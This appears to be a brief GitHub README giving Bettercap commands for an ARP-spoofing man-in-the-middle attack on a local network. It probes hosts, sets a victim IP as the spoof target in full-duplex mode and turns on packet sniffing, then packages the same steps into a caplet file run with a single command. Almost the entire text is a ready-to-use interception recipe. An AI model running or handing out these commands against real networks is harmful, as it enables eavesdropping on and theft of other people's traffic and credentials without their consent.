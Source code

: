 # wifi_router-MMTK

     bettercap -iface wlan0
     help
     net.probe on 
     net.show

    
    help arp.spoof
    arp.spoof.fullduplex true 
    
    set arp.spoof.targets [ vigtim ip]
    arp.spoof on
    net.sniff on

    



# Automate BetterCAP using Caplets
To be more efficient on your work, you can automate the modules setup part by creating a simple Caplet file(file.cap) and adding the commands per line.

## Create the caplet:

touch spoof.cap

## Add the commands and save it :

nano spoof.cap

   net.probe on
   set arp.spoof.fullduplex true 
   set arp.spoof.targets 10.0.2.5
   arp.spoof on
   set net.sniff.local true
   net.sniff on


As you can see is the same commands in order that you used previously.

## Start the Bettercap using the spoof Caplet that you created:

    bettercap -iface eth0 -caplet spoof.cap

